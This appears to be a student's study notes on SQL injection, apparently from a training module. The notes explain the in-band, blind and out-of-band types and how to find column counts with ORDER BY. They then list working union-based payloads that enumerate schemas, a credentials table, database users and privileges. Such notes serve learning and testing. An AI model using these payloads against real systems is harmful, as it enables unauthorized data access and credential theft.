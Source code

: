![[Pasted image 20250404161804.png]]

In simple cases, the output of both the intended and the new query may be printed directly on the front end, and we can directly read it. This is known as `In-band` SQL injection, and it has two types: `Union Based` and `Error Based`.

With `Union Based` SQL injection, we may have to specify the exact location, 'i.e., column', which we can read, so the query will direct the output to be printed there. As for `Error Based` SQL injection, it is used when we can get the `PHP` or `SQL` errors in the front-end, and so we may intentionally cause an SQL error that returns the output of our query.

In more complicated cases, we may not get the output printed, so we may utilize SQL logic to retrieve the output character by character. This is known as `Blind` SQL injection, and it also has two types: `Boolean Based` and `Time Based`.

With `Boolean Based` SQL injection, we can use SQL conditional statements to control whether the page returns any output at all, 'i.e., original query response,' if our conditional statement returns `true`. As for `Time Based` SQL injections, we use SQL conditional statements that delay the page response if the conditional statement returns `true` using the `Sleep()` function.

Finally, in some cases, we may not have direct access to the output whatsoever, so we may have to direct the output to a remote location, 'i.e., DNS record,' and then attempt to retrieve it from there. This is known as `Out-of-band` SQL injection.

In this module, we will only be focusing on introducing SQL injections through learning about `Union Based` SQL injection.


## SQLi Discovery
![[Pasted image 20250404164115.png]]

## Detect number of columns

Before going ahead and exploiting Union-based queries, we need to find the number of columns selected by the server. There are two methods of detecting the number of columns:

- Using `ORDER BY`
- Using `UNION`

#### Using ORDER BY

The first way of detecting the number of columns is through the `ORDER BY` function, which we discussed earlier. We have to inject a query that sorts the results by a column we specified, 'i.e., column 1, column 2, and so on', until we get an error saying the column specified does not exist.

For example, we can start with `order by 1`, sort by the first column, and succeed, as the table must have at least one column. Then we will do `order by 2` and then `order by 3` until we reach a number that returns an error, or the page does not show any output, which means that this column number does not exist. The final successful column we successfully sorted by gives us the total number of columns.

If we failed at `order by 4`, this means the table has three columns, which is the number of columns we were able to sort by successfully. Let us go back to our previous example and attempt the same, with the following payload:

```sql
' order by 1-- -
```

Reminder: We are adding an extra dash (-) at the end, to show you that there is a space after (--).


### SQLi Payloads
**UNION & ORDER BY** : 
- `val' UNION select 1,2,3,4-- -`
- `val' UNION select 1,@@version,3,4-- -`
- `' order by 2-- -`

**SCHEMATA** : 
- `SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;`
- `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`
- `cn' UNION select 1,database(),2,3-- -`
- `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`  : This payload gives us the information regarding the column name, table name and table schema of the tables

## DB User
```
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Injection payload will be : `value' UNION SELECT 1, user(), 3, 4-- -` or `value' UNION SELECT 1, user, 3, 4 FROM mysql.user-- -`

## User Privileges
`SELECT super_priv FROM mysql.user` : This is the command used to know about the Super Admin Privileges.

`value' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -` : This is the payload for the above command.
If we want to know about the privileges of a particular user, maybe 'root', so we'll use the payload as : `value' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`

`cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -` : This payload is used to dump other privileges, we have directly from the schema.
If I need to have information about a particular user, then it becomes : `
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -`